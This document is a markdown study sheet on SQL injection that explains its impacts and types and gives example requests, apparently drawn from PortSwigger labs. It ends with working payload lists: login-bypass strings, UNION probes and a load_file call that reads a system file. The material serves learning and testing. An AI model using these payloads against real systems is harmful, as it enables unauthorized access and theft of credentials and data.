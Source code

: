 #SQL Injection

* Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.

Impact of SQL Injection Attacks

* Unauthorized access to sensitive data
	
	* Confidentiality - SQLi can be used to viwe sensitive information, such as application username and passwords
	* Integirity - SQLi can be used to alter data in the database
	* Availability - SQLi can be used to delete data in the database

Types of SQL Injection
	
	* In-Band(classic)
		* Error
		* Union
	* Inferential(Blind)
		* Boolean
		* Time
	* Out-of-Bnad

Error-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id='

			Response:	
			You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version ...

Union-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=' UNION SELECT username, password FROM users--

			Response:	
			administrator
			carlos

Boolean-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=1 and 1=2

			Response:	
			False

			Request:
			www.target.com/app.php?id=1 and 1=1

			Response:	
			True

Boolean-Based SQLi 

	Example:
			If the first character of the admin's hashed passwd is an 'a', wait for 10 seconds.
				-> response takes 10 second -> first letter is 'a'
				-> response doesn't takes 10 second -> first letter is not 'a'

Out-of-band-Based SQLi 

	Example 

		will discuss...

Finding  SQLi Vulnerabilities

	* Submit SQL-specific characters such as ' or ", and look errors or other anomalies
	* Submit Boolean conditons such as OR 1=1 and OR 1=2, and look for differences in the applications responcses
	* Submit Payloads designed to trigger time delays when executed within a SQL query, and look for diffrences in the time taken to respond
	* Submit OAST Payloads designed to trigger out-of-band network interaction when executed within a SQL query, and monitor for any resulting interactions

Automated Exploitation Tool

	sqlmap (https://github.com/sqlmapproject/sqlmap)

Special Thanks : ???

Payloads

	'
	"
	)'
	)"
	')
	")
	'))
	"))

Login Bypass

	' or 1=1 --
	' or '1'='1
	' or 1=1 --+
	admin' or 1=1;#
	admin' or 1=1 LIMIT 1;#
	admin' or 1=1 LIMIT 0,1;#

Union Based SQL

	order by 1
	order by 2
	order by 3
	' UNION SELECT NULL --
	' UNION SELECT NULL,NULL --
	' UNION SELECT 1,2,3 -- -
	' UNION SELECT 1,load_file('/etc/password'),3 --

Resources:

	https://portswigger.net/web-security/sql-injection

Labs:

	https://portswigger.net/web-security/all-labs

